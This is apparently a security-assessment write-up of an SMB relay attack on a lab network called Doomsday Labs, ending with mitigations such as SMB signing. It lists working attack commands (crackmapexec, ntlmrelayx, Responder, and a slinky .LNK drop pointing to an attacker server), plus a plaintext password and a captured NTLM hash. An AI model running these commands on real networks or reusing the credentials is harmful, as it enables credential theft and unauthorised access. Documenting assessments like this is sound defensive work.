 # SMB Relay Attack Findings

## Overview

This document provides a detailed account of the SMB Relay attack executed during our security assessment of Doomsday Labs' network. It outlines the specific tools and commands used to perform the attack and explains how these actions integrated with other attack vectors like the LNK file deployment.

## Technical Details

### Targets
- **Discovery of SMB Shares**:
  - We used `crackmapexec` and `smbmap` to find SMB shares across the network. Commands used included:
    ```
    crackmapexec smb 10.100.1.2-7 --shares
    smbmap -H 10.100.1.4 -u info -d doomsdaylabs.net
    ```
  - This helped in identifying vulnerable targets and valuable data repositories.

### Methods
- **SMB Relay Attack Process**:
  - The SMB Relay attack was meticulously planned and executed to capture NTLM hashes from the network traffic. We utilized:
    ```
    crackmapexec smb 10.100.1.2-7 --gen-relay-list targets.txt -socks
    impacket-ntlmrelayx -smb2support -tf targets.txt
    ```
  - These tools intercepted SMB sessions and relayed authentication requests to capture hashes, which were then used to access further network resources.

- **Credential Harvesting and LNK File Drop**:
  - As part of the attack, we deployed a malicious .LNK file to extract credentials using:
    ```
    crackmapexec smb 10.100.1.4 -u info -p WhenTomorrowisNot@nOption2024 -M slinky -o server=10.100.1.76 name=JK_Flag.lnk
    sudo responder -I tun0 -A
    ```
  - The captured NTLM hash (`DOOMSDAYLABS\filemaker`) was subsequently cracked to provide deeper access into the network.

- **Using the Captured Credentials**:
  - With the cracked credentials, we accessed additional SMB shares and deployed further payloads:
    ```
    smbclient //10.100.1.4/Fileshare -U DOOMSDAYLABS/filemaker
    ```
  - This step was critical in maintaining persistence and moving laterally within the network.


### Hash and Credential Details
- **Captured Hash**:
  - Captured NTLMv2-SSP hash during the attack:
    ```
    [SMB] NTLMv2-SSP Client   : 10.100.1.3
    [SMB] NTLMv2-SSP Username : DOOMSDAYLABS\filemaker
    [SMB] NTLMv2-SSP Hash     : filemaker::DOOMSDAYLABS:322e0b51ca281c55:F1F9E4FF7872D084AC0E2CB11DE7D2C0...
    ```

## Impact Assessment

- **Security Implications**:
  - **Unauthorized Access**: The SMB Relay attack effectively bypassed network defenses, granting unauthorized access to multiple systems.
  - **Credential Theft**: The successful extraction and cracking of NTLM hashes could lead to broader network compromise if left unchecked.
  - **Data Vulnerability**: Access to SMB shares without proper authorization could potentially lead to data leakage or loss.

## Recommendations

- **Mitigation Strategies**:
  - **Implement SMB Signing**: This will help prevent SMB Relay attacks by requiring proper authentication of SMB traffic.
  - **Disable SMBv1**: Older, more vulnerable versions of SMB should be disabled to reduce the attack surface.
  - **Regular Security Audits**: Conduct frequent audits of SMB configurations to ensure they are secure against known vulnerabilities.

## Conclusion

The SMB Relay attack exposed significant vulnerabilities within the SMB protocol configurations used by Doomsday Labs. By following the detailed recommendations provided, an organization can improve its defenses against similar attacks in the future enhancing its overall security posture.
